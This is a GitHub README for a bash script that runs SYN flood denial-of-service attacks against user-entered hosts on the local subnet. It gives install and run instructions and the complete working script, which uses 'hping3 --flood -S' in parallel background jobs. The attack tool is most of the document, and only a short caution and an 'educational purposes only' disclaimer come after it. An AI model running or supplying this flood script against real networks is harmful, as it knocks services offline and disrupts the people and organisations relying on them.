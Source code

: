 # 🦠 Flood Hosts Script

This script is a powerful tool to perform SYN flood attacks on specified target hosts within your local network. Leveraging `hping3` for the flood attack and `ipcalc` to ensure target IPs are valid, it gives you a glimpse into the world of network testing.

## 🛠️ Prerequisites

Before running this script, ensure you have the following installed on your system:

- `hping3` 📡
- `ipcalc` 🔍

Install these tools using your package manager. For example, on Ubuntu:

```sh
sudo apt-get install hping3 ipcalc
```

## 🚀 Usage

1. Save the script to a file, for example, `flood_hosts.sh`.
2. Make the script executable:

```sh
chmod +x flood_hosts.sh
```

3. Run the script:

```sh
./flood_hosts.sh
```

## 💻 Script Details

### Description

This script performs the following steps:

1. **Get Local Network Information** 🌐:
    - Retrieves the local IP address and determines the subnet (assuming a /24 subnet).

2. **Prompt for Target Hosts** 🎯:
    - Asks the user to enter the target IP addresses separated by spaces.

3. **Validate and Attack** ⚔️:
    - For each entered IP address, the script checks if the IP is within the local subnet.
    - If the IP is valid, it initiates a SYN flood attack using `hping3` and logs the output to a file named after the target IP.
    - If the IP is not within the local network, it notifies the user.

4. **Wait for Attacks to Complete** ⏳:
    - The script waits for all initiated attacks to complete before exiting.

### Code

```sh
#!/bin/bash

# Function to get the local network and subnet
get_local_network_info() {
    local_ip=$(ip -4 addr show scope global | grep inet | awk '{print $2}' | head -n 1)
    subnet="${local_ip%.*}.0/24"  # Assuming a /24 subnet
    echo "$subnet"
}

# Get the local network information
network_info=$(get_local_network_info)
echo "Local network info: $network_info"

# Prompt the user to enter target hosts
echo "Enter target hosts separated by spaces:"
read -a IPs

pids=()  # Array to hold PIDs of background processes

for IP in "${IPs[@]}"
do
    ip_to_check=$IP

    # Check if the IP is within the local network
    if ipcalc -n $network_info | grep -q "${ip_to_check%.*}.0"; then
        log_file="${IP}_attack.log"
        echo "Starting attack on $IP. Logging to $log_file."
        
        echo "Sending SYN packets to $IP from $network_info"
        sudo hping3 -V --flood -S "$IP" &> "$log_file" &
        pids+=($!)  # Capture the PID of the background process
        echo "Attack on $IP initiated. Check $log_file for details."
    else
        echo "$ip_to_check is NOT in the local network."
    fi
done

# Wait for all background processes to finish
for pid in "${pids[@]}"
do
    wait "$pid"
done

echo "All attacks completed."
```

## ⚠️ Important Notes

- **Caution**: SYN flood attacks can cause network disruptions and are considered malicious activity. Use this script responsibly and only in environments where you have explicit permission to perform such actions.
- **Permissions**: The script uses `sudo` to run `hping3`. Ensure you have the necessary permissions to execute commands with `sudo`.
- **Logging**: Each attack's output is logged to a file named after the target IP address, e.g., `192.168.1.1_attack.log`.

## 📝 Disclaimer

This script is provided for educational purposes only. The author is not responsible for any misuse or damage caused by using this script.

---

## 🛡️ License

This project is licensed under the [MIT License](LICENSE).

---

## 📞 Contact

For support or questions, feel free to reach out:

- **GitHub Profile**: [yourusername](https://github.com/yourusername)
- **Email**: your.email@example.com

---
